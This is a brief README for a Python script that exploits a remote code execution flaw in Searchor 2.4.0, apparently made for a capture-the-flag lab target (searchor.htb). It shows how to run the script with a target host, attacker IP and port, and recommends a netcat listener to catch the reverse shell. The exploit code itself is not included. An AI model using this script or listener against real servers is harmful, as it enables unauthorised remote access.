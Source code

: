 
This is just a quick script to exploit webservers running the vulnerable version of Searchor.

This script will accept a hostname, the attacker's IP address and the attacker's Port number.

Usage example: `python3 searchor_2.4.0_RCE.py searchor.htb 10.10.14.52 4242`
 
It is recommended to use `rlwrap nc -lvnp <Port_Number>` when preparing to catch the reverse shell.

Additional details about the vulnerability can be found in the issue history for [Searchor](https://github.com/ArjunSharda/Searchor/pull/130).

